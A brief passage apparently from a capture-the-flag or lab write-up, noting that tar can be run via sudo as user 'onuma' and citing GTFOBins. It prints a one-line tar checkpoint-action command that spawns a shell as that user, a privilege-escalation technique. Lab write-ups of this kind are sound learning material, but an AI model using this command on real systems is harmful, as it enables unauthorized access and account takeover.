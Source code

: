 ![[Pasted image 20240903115318.png]]
Using this information
- Found [GTFObins](https://gtfobins.github.io/gtfobins/tar/) for tar which can be run as user `onuma`
- getting shell as `onuma`
```bash
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
